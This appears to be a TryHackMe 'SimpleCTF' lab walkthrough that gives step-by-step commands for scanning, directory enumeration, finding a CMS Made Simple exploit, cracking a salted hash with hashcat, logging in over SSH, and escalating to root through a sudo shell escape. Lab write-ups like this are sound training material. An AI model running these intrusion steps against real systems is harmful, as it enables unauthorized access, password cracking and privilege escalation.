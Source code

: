 # SimpleCTF Room

[Link to room](https://tryhackme.com/room/easyctf)

## Scanning
Run an nmap scan on the IP address from your portal. Replace the IP below with your THM victim machine.

 ```
 sudo nmap -sC -sV -O 10.10.x.x -vv 
```

## Enumeration
Run GoBuster on the web server to determine the directories that are available. 

```
 gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

You will not know what CVE to look for until you get to the webpage that is found in the GoBuster scan.

Once there, look at the bottom left corner of the webpage for Name of application and version number/

Next you will search for the CVE using Google. 

Then you will search for the exploit using the following.
```
  searchsploit CMS Made Simple
```
Once you have identified the CVE, download the updated python script as shown below.

```
  wget https://raw.githubusercontent.com/gray-area/THM/main/SimpleCTF/exploit.py
```
After the exploit.py script runs, there will be an output of the username, salt and hash. Use the salt and hash as shown below.
```
  hashcat -m 20 0c01f4468bxxxxxxxxxxx73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
```

```
  ssh mitch@10.10.x.x -p 2222
```
Then open the user.txt file by entering the following
```
  cat user.txt
```

## Escalation

Now we need to get access to a privileged shell. To check what is running as root, enter the following.
```
  sudo -l
```

Now we can check out what options are available for this by going to GTFO Bins on GitHub and looking for our service. Make sure you select SUDO from the options.

We now have a code snippet to enter into our shell.
```
  sudo xxx -c ':!/bin/sh'
```

Now we have to find the root flag. I guessed the name here and found it was right. 

```
  locate root.txt
```
I then open file at the location provided like below

```
  cat /path/to/root.txt
```

Thats it! If you followed along, you have completed the challenge. 

Happy hacking - gray_area


